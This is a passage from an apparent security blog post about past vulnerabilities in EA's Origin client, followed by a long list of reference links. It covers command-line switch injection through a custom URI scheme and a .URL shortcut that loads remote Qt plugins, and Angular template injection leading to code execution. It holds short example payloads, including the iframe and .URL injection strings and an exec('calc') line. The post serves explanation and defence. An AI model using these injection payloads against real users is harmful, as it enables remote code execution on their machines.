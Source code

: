 You can pass a command-line switch to Qt apps to designate the path to
plugins. Qt plugins (at least on Windows) are DLLs that can spawn new processes.
If you want to know more about Qt issues like this please read
[Loading up a Pair of Qt Bugs: Detailing CVE-2019-1636 and CVE-2019-6739][zdi-qt]

[zdi-qt]: https://www.thezdi.com/blog/2019/4/3/loading-up-a-pair-of-qt-bugs-detailing-cve-2019-1636-and-cve-2019-6739

The blog experiments with passing a UNC path to a remote path to this switch:

```html
<iframe src='origin://?"
    -platformpluginpath \\path\to\remote\plugindir\ "
'>
```

Unfortunately (well fortunately for us at EA), the browser encoding saves us.
The payload becomes
`Origin.exe "origin:///?%22-platformpluginpath \\path\to\remote\plugindir\ %22"`
which doesn't work.

The workaround is a `.URL` file. Think of it as a shortcut file. You can
put custom URIs in it and they do not get encoded. So, a URL file like this
works.

```ini
[InternetShortcut]
URL=origin://?" -platformpluginpath \\path\to\remote\plugindir\ "
```

However, you need to social engineer the users to not only click on the link to
download your file but to also run it. If you can get people to run a file they
have downloaded you do not need Origin although, having a shortcut with the
Origin icon helps. It's a great bug and I am not trying to downplay it.

We were not so lucky with the second bug
[A Questionable Journey From XSS to RCE][origin-xss-rce]. Origin frontend uses
Angular and it was vulnerable to a well-known sandbox escape.

[origin-xss-rce]: https://zero.lol/2019/05/13/xss-to-rce

You could pass a URI scheme and inject values into `title`.
`origin://game/launch/?offerIds=0&title={{7*7}}`. This is the typical Angular
template injection testing payload and should inject `49` there.

A sandbox bypass was discovered and used. There are a ton of these going around.
For a great intro please see
[So you thought you were safe using AngularJS.. Think again!][lewis-angular-talk]
by my good friend and solid 5/7 JavaScript guy, [Lewis Ardern][lewis-twitter].

[lewis-angular-talk]: https://www.slideshare.net/LewisArdern/so-you-thought-you-were-safe-using-angularjs-think-again
[lewis-twitter]: https://twitter.com/LewisArdern

Now, we have client-side template injection and can inject JavaScript. This is
not Electron where you can just run `require('child_process').exec('calc')` and
get RCE on [PlayStation Now][playstation-now-rce-h1] (shameless brag).

[playstation-now-rce-h1]: https://hackerone.com/reports/873614

Origin had a "JavaScript bridge" (if I may) that allowed JavaScript to call
`QDesktopServices`. A function named `asyncOpenUrl()` calls `openUrl()` which
allows us to open URLs and also schemes.Using that limited RCE was possible.

**Update 2024**: I made a separate blog posts in this topic a few months later,
{{< xref path="/post/2021/2021-06-08-js-bridge-desktop-apps/"
  text="The JavaScript Bridge in Modern Desktop Applications" >}}).


[positive]: https://positive.security/blog/url-open-rce
[eric-app-protocols]: https://textslashplain.com/2019/08/29/web-to-app-communication-app-protocols/
[eric-lawrence-twitter]: https://twitter.com/ericlaw
[procmon-link]: https://docs.microsoft.com/en-us/sysinternals/downloads/procmon
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[positive-jar-trick]: https://positive.security/blog/url-open-rce#windows-10-19042
[cyku-twitter]: https://twitter.com/cyku_tw
[cyku-nord-bug]: https://hackerone.com/reports/1001255
[process-start-string]: https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=net-5.0#System_Diagnostics_Process_Start_System_String_
[ea-security]: https://ea.com/security
[zer0pwn-twitter]: https://twitter.com/zer0pwn
[fun-with-uri]: https://zero.lol/2019/05/22/fun-with-uri-handlers
[ninth-dr]: https://en.wikipedia.org/wiki/Ninth_Doctor
[b1ack0wl-twitter]: https://twitter.com/b1ack0wl
[mint-yelp-poc]: https://github.com/b1ack0wl/linux_mint_poc
[chromium-785809]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809
[chromium-785809-22]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809#c22
[chromium-785809-21]: https://bugs.chromium.org/p/chromium/issues/detail?id=785809#c22
[ifs-docs]: https://bash.cyberciti.biz/guide/$IFS
[jonaslyk-twitter]: https://twitter.com/jonasLyk
[jonaslyj-tweet]: https://twitter.com/jonasLyk/status/1372952003719143428
[subtle-raymond]: https://devblogs.microsoft.com/oldnewthing/20060509-30/?p=31263
[james-twitter]: https://github.com/tyranid
[path-conversion]: https://googleprojectzero.blogspot.com/2016/02/the-definitive-guide-on-win32-to-nt.html
[mirc-uri-rce]: https://proofofcalc.com/cve-2019-6453-mIRC/
[jeff-twitter]: https://twitter.com/jeffssh
[teamviewer-unquoted]: https://jeffs.sh/CVEs/CVE-2020-13699.txt
[rgod-livejournal]: http://retrogod.altervista.org/
[electron-url]: https://www.electronjs.org/
[cef-url]: https://bitbucket.org/chromiumembedded/cef/src
[rgod-electon-zdi]: https://www.thezdi.com/blog/2018/12/18/top-5-day-two-electron-boogaloo-a-case-for-technodiversity
[gpu-launcher-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#414
[disable-gpu-sandbox-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#118
[no-sandbox-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#463
[electron-protocol-handler-fix]: https://www.electronjs.org/blog/protocol-handler-fix
[ubi-rce]: https://thewhiteh4t.github.io/2018/11/16/ubisoft-uplay-rce-exploit.html
[exodus-rce]: https://hackernoon.com/exploiting-electron-rce-in-exodus-wallet-d9e6db13c374
[type-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#507
[chromium-histogram-old-src]: https://chromium.googlesource.com/aosp/platform/external/libchrome/+/refs/heads/stabilize-8530.93.B/base/metrics/histogram_base.cc#136
[chromium-histogram-current-src]: https://chromium.googlesource.com/aosp/platform/external/libchrome/+/refs/heads/master/base/metrics/histogram_base.cc
[luke-calc-hta]: https://github.com/arntsonl/calc_security_poc/blob/master/hta/calc.hta
[directories-special-files]: https://docs.microsoft.com/en-us/windows/win32/fileio/naming-a-file#:~:text=Note%20that%20directory%20names%20are%20stored%20by%20the%20file%20system%20as%20a%20special%20type%20of%20file,
[ms-hta-docs]: https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)
[expand-env-var]: https://docs.microsoft.com/en-us/dotnet/api/system.environment.expandenvironmentvariables
[flag-descriptions-rc]: https://chromium.googlesource.com/chromium/src/+/master/chrome/browser/flag_descriptions.cc
[browser-subprocess-path-switch]: https://chromium.googlesource.com/chromium/chromium/+/master/content/public/common/content_switches.cc#32
[spotify-advisory]: https://www.zerodayinitiative.com/advisories/ZDI-18-280/
[amazon-music-advisory]: https://www.zerodayinitiative.com/advisories/ZDI-18-215/
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[understanding-protocols]: https://docs.microsoft.com/en-us/archive/blogs/ieinternals/understanding-protocols
[exploiting-uri]: https://web.archive.org/web/20200525025338/https://www.vdoo.com/blog/exploiting-custom-protocol-handlers-in-windows
[provoking-windows]: https://www.slideshare.net/JeremyBrown37/provoking-windows-dragoncon-2016-253308525
[uri-use-abuse-slides]: https://www.blackhat.com/presentations/bh-europe-08/McFeters-Rios-Carter/Presentation/bh-eu-08-mcfeters-rios-carter.pdf
[uri-use-abuse-wp]: https://www.blackhat.com/presentations/bh-europe-08/McFeters-Rios-Carter/Whitepaper/bh-eu-08-mcfeters-rios-carter-WP.pdf
[codecolorist-twitter]: https://twitter.com/CodeColorist
[shellexecute-codecolorist]: https://blog.chichou.me/2018/01/28/electron-s-bug-shellexecute-to-blame/
[juho-paper]: https://infocondb.org/con/disobey/disobey-2020/appsetasdefaultrceclient-electron-scheme-handlers-and-stealthy-security-patches
[juho-twitter]: https://twitter.com/jupenur